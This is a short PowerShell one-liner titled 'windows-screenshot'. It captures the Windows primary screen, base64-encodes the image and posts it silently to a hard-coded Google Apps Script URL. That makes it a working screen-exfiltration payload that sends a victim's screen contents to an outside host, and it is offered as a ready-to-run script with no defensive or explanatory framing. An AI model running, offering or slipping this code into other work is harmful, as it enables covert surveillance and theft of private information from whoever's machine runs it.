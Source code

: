 ﻿# windows-screenshot

Add-Type -A System.Windows.Forms; Add-Type -A System.Drawing; $s=New-Object Drawing.Bitmap(([Windows.Forms.Screen]::PrimaryScreen.Bounds.Width),([Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)); $g=[Drawing.Graphics]::FromImage($s); $g.CopyFromScreen(([Windows.Forms.Screen]::PrimaryScreen.Bounds.Location),[Drawing.Point]::Empty,$s.Size); $m=[IO.MemoryStream]::new(); $s.Save($m, [Drawing.Imaging.ImageFormat]::Png); $b=[Convert]::ToBase64String($m.ToArray()); $u="https://script.google.com/macros/s/AKfycbwuxDlUObhBlPrsex1gg5wCHzPGhPVJ67sptDrm20IylXSva35YG_yxsPQmQRGqnia3/exec"; Invoke-RestMethod -Uri $u -Method Post -Body $b -ContentType "application/json"; $g.Dispose(); $s.Dispose(); $m.Dispose();
